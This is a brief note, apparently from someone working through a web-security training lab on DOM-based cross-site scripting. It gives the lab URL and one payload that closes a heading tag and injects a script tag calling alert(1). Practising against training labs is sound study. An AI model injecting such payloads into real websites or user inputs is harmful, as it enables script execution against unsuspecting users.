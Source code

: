 # DOM-Based XSS  Cross-site scripting

https://0a1d00ff0478e88e81caf26000d100f3.web-security-academy.net/


Payload : '</h1><script>alert(1)</script>
